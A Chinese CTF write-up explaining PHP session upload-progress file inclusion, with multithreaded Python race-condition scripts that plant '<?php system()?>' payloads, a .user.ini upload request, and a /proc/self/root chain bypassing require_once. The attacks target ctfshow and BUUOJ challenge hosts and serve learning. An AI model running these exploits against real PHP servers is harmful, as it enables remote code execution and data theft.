


+++
title = "session文件包含"
slug = "session-file-inclusion"
description = "经典"
date = "2024-09-27T13:39:03"
lastmod = "2024-09-27T13:39:03"
image = ""
license = ""
categories = ["talk"]
tags = ["session", "RaceCondition"]
+++

# 0x01 前言

之前觉得很难的姿势，现在学习了一下，感觉还行啊，果然多多尝试才有结果

# 0x02 question

这个的大部分基础知识都在`session`反序列化提到了，所以这里就将`session`文件包含所需要的，当涉及`session`的时候，我们可以利用ID来保留属于自己的信息

那么我们如果上传文件进行包含然后利用ID进行文件的利用

## ini

先来看看几个配置项，已知我们要进行恶意文件的利用，那么我们如何上传呢

通过`session`上传进度



那么看看相应的配置项

```
session.upload_progress.enabled = On		该参数设置为On时，才会进行文件上传进度的记录。

session.upload_progress.cleanup = On		该参数开启时，会在文件上传结束时对用户session内容进行自动清除。

session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"		该参数与prefix作为我们的键名。方便我们的shell编写，可控。

session.upload_progress.prefix = "upload_progress_"		该参数表示与name一起构成我们的键名。
```

不知道你们昂，我本人其实是对`session.upload_progress.prefix`不太明白能拿来干什么的(~~那就查呗~~)

后面发现其实就是与你的文件名进行拼接，然后作为会话的键名，通过键名我们就可以读取到上传文件的信息，看`test`，**记得把cleanup关了，因为没有竞争不然上传不上**

```html
<form action="http://localhost/upload.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="unique_identifier">
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload File" name="submit">
</form>
```

会话结构例子

```
$_SESSION['upload_progress_unique_identifier'] = [
    'start_time' => 1696000000, // 上传开始时间
    'content_length' => 1024000, // 文件总字节数
    'bytes_processed' => 512000, // 已上传的字节数
    'done' => false, // 上传是否完成
    'files' => [ // 上传的文件列表
        [
            'field_name' => 'fileToUpload', // 表单字段名
            'name' => 'example.txt', // 文件名
            'tmp_name' => '/tmp/phpupload12345', // 临时文件路径
            'error' => 0, // 错误码
            'done' => false, // 文件是否上传完成
        ]
    ]
];
```

`upload.php`

```php
<?php
session_start();
$identifier = $_GET['identifier'];
$key = 'upload_progress_' . $identifier;

// 输出所有会话数据，用于调试
echo "<pre>";
print_r($_SESSION);
echo "</pre>";

if (isset($_SESSION[$key])) {
    echo json_encode($_SESSION[$key]);
} else {
    echo json_encode(['done' => true]);
}
?>
```

 我们就可以利用键值进行基础信息的读取，随便上传个文件回显

```
Array
(
    [upload_progress_unique_identifier] => Array
        (
            [start_time] => 1727587848
            [content_length] => 602
            [bytes_processed] => 602
            [done] => 1
            [files] => Array
                (
                    [0] => Array
                        (
                            [field_name] => fileToUpload
                            [name] => .htaccess
                            [tmp_name] => C:\Users\baozongwi\AppData\Local\Temp\phpC398.tmp
                            [error] => 0
                            [done] => 1
                            [start_time] => 1727587848
                            [bytes_processed] => 162
                        )

                )

        )

)
{"done":true}
```

那么回过头来，我们之前进行测试的时候是把

```
session.upload_progress.cleanup = Off
```

那样子我们的文件是保存的下来的，但是在实际的场景之中，为了能够更加的安全，一般都是将这个开启的，那么这个时候我们需要到条件竞争，但是这都是后话了

还有一个选项就是

```
session.use_strict_mode = 0
```

这个默认是关闭的，为了方便session会话的链接，也很大概率会关闭，但是有些开发者为了安全会开启



所以我们在测试的时候也要关闭(也就是默认)

## 条件竞争

这东西你一上传就给你删了，那肯定是不能自己来的啊，只能是动手了呀，那么脚本比较自动化的又是`Python`，所以我们**了解**一下`Python`的多线程

引用一位师傅的话

> Python主要通过标准库中的**threading**包来实现多线程。由于cpython解释器GIL全局解释性锁的关系，python的多线程设计有一定的妥协，并非真正意义上的多线程，在同一时间有且只有一个线程在工作，所谓的多线程，只是多个线程轮换执行（每隔一定时间片或者cpu指令数GIL会释放锁让其他线程有机会执行）。
>
>   如一个四核四线程的cpu（因为超线程技术，有四核八线程的），一个java程序创建了10个线程，而java能实现真正意义的多线程，同一时间允许四核的四个线程同时执行，10个线程在四个核心中轮换执行（**四个一批轮换**），所以能充分利用cpu的多个核心，而python程序同一时间只有一个线程执行（**一个一批轮换**），即使四核cpu也只能利用一个核心的性能（有可能在其他核心执行，但总会有三个核心被闲置，所以只能说综合性能只有一个核的）。因此python程序通常是通过多进程方式来充分发挥多核性能（如部署常用的uwsgi服务器uWSGI和Gunicorn都是通过开启多个进程来提高程序的处理能力）。
>
>   上面说了，python多线程只是有所妥协而已：**cpu密集的任务**，由于同一时间只有一个线程在运算，如果开启多个线程，反而增加了线程切换的资源消耗，所以这种情况性能反而不及单线程高，比较有代表性的就是numpy等需要高计算性能的场景，通过调用c语言（没有线程限制）来执行计算工作。但也不是完全的鸡肋：**IO密集型的任务**，由于程序执行的大部分时间都是在等待IO操作，代码执行所占的时间极短，所以此时使用多线程，可以在等待IO的时候切换到其他线程执行，避免单线程等待IO所带来的程序阻塞，最有代表性的场景就是爬虫和web。

那么再了解一会儿会用到的

```python
# 创建一个事件对象。事件对象是一种线程同步机制，用于在线程之间传递信号。
event = threading.Event()
# 设置对象状态为已触发
event.set()
# 设置对象状态为未触发(之前开始的线程仍然继续只不过会阻止新线程，避免不必要资源占用)
event.clear()
# 检查对象是否为触发
event.isSet()
```

**基本方法**

> - **start():** 开启线程。
> - **getName():** 返回线程名。
> - **setName():** 设置线程名。
> - **isAlive():** 返回线程是否活动的。
> - **run():** 表示线程活动的方法。在线程启动后会自动被调用，其中传入的target对象就是在这里面调用的。
> - **setDaemon([True]):** 当定义子线程为守护线程，当主线程结束，不管子线程是否执行完，都会被直接给暂停掉。默认daemon为False，主线程只有在子线程全部结束后才会结束。
> - **join([time]):** 线程阻塞：等待至线程中止。这阻塞调用线程直至线程的join() 方法被调用中止、正常退出或者抛出未处理的异常、或者是可选的超时发生，才能继续运行后面的代码。

但是我们用到的只有`start`

```python
threading.Thread(target=function,args=(session,)).start()
```

这里的`target`就是调用的函数，然后`args`必须是一个可迭代的对象（通常是元组或列表），其中包含传递给目标函数的参数。

## demo

### demo 1

**ctfshow web82--web86**,都是一样的直接来通杀

```python
import io 
import requests
import threading

sessid="wi"
url="http://de7f8955-1d95-46f0-9a7a-eb00bade0b2f.challenge.ctf.show/"

def write(session):
    while event.isSet():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac fl0g.php');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.isSet():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if 'wi.txt' in r.text:
            print(r.text)
            event.clear()
        else :
            print("nonono")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()
```

中途有个地方参数写错了还是改了一会的

### demo 2

**ctfshow web 150plus**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```

我们可以直接覆盖`isVIP`,然后利用`$ctf`来包含文件就可以了

```python
import io
import requests
import threading

sessid="wi"
url="http://a212013b-94cd-482b-9804-7987ce892e7e.challenge.ctf.show/"

def write(session):
    while event.is_set():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac f*');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.is_set():
        r=session.post(
            url=url+"?isVIP=1",
            data={
                'ctf':"/tmp/sess_"+sessid
            }
        )
        if 'ctfshow{' in r.text:
            print(r.text)
            event.clear()
        else :
            print("nonono")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()


```

但是我这里不知道为什么没有成功

当然也可以直接命令执行

```php
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}
```

这里有个特性就是

```php
function __autoload($class){
        if(isset($class)){
            $class();
    }
}
```

程序会自动调用`__autoload`这个方法,那么这里直接传参

```
?..CTFSHOW..=phpinfo
```

### demo 3

**ctfshow web162--web163**

`nginx`这里只能上传图片所以我们还需要上传一个`.user.ini`进行解析

```
GIF89a
auto_prepend_file=/tmp/sess_wi
```

发包

```
POST /upload.php HTTP/1.1
Host: d31e881f-e7a5-4f4e-b0d4-698f8f5c3dd3.challenge.ctf.show
Content-Length: 220
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryroFBBJB4jSqSrBZk
Sec-Ch-Ua-Mobile: ?0
Origin: https://d31e881f-e7a5-4f4e-b0d4-698f8f5c3dd3.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://d31e881f-e7a5-4f4e-b0d4-698f8f5c3dd3.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close

------WebKitFormBoundaryroFBBJB4jSqSrBZk
Content-Disposition: form-data; name="file"; filename=".user.ini"
Content-Type: image/png

GIF89a
auto_prepend_file=/tmp/sess_wi
------WebKitFormBoundaryroFBBJB4jSqSrBZk--

```

写脚本

```python
import re
import requests
import threading

sessid="wi"
url="http://d31e881f-e7a5-4f4e-b0d4-698f8f5c3dd3.challenge.ctf.show/"

def write(session):
    while event.isSet():
        #f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac ../flag.php');?>"
            },
            files={"file":'do you know wi'}
        )

def read(session):
    while event.isSet():
        payload="upload"
        r=session.get(url=url+payload)

        if 'flag' in r.text:
            print(r.text)
            event.clear()
        else :
            print("no")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()
```

改了好久中途出了点问题修了一会

### demo 4

**[WMCTF2020]Make PHP Great Again**

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

文件包含了，不过这里和`include`不一样，`require_once`这个函数只会包含一次，所以这里我们直接来竞争就行

```python
import io
import requests
import threading

sessid="wi"
url="http://bcb243c0-990f-4e17-a7c8-ca61ef18119f.node5.buuoj.cn:81/"

def write(session):
    while event.isSet():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac flag.php');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.isSet():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if 'wi.txt' in r.text:
            print(r.text)
            event.clear()
        else :
            print("no")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()
```

感觉没啥感觉哈哈，但是这是个非预期，顺便把预期说了吧

预期杰就是绕过函数`require_once`,php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中,但是这个函数本身对软连接的处理会有问题，当我们使用过多的软连接就可以绕过

`/proc/self/`是指向当前进程的`/proc/pid/`，而`/proc/self/root`是指向`/`的软连接，所以让软连接层数变多即可造成重复包含：

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

不过要控制好长度，所以我们可以这样子

```python
import requests
import time


url="http://2e793a84-19d4-4200-bd9f-e0a113acb563.node5.buuoj.cn:81/"
payload="php://filter/convert.base64-encode/resource="
path="/proc/self/root"
for i in range(50):
    r=requests.get(
        url=url,
        params={'file':payload+path+'/var/www/html/flag.php'}
    )
    time.sleep(0.3)
    if "PD" in r.text:
        print(r.text)
        break
    else:
        path+="/proc/self/root"
        print(payload+path+'/var/www/html/flag.php')
```

这就欧克了

# 0x03 小结

还是一个挺好玩的姿势，而且知识并不难，还会写一点点点点简单的多线程了哈哈
